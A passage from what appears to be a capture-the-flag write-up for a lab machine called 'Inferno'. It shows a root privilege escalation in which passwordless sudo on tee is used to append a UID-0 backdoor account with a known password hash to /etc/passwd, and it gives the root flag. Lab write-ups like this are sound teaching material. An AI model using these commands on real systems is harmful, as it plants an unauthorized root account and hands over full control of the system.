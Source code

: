 ~~~
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
~~~

Let's take advantage of this to generate a privileged user:

~~~
dante@Inferno:~$ openssl passwd -1 -salt "inferno" "dante"
$1$inferno$vA66L6zp5Qks4kxIc3tvn/
dante@Inferno:~$ printf 'inferno:$1$inferno$vA66L6zp5Qks4kxIc3tvn/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
~~~

Switch to `inferno`, our newly created privileged user:

~~~
dante@Inferno:~$ su - inferno
Password: dante
root@Inferno:~# cat /root/proof.txt 
Congrats!

You've rooted Inferno!

f332678ed0d0767d7434b8516a7c6144

mindsflee
~~~

Root flag: `f332678ed0d0767d7434b8516a7c6144`
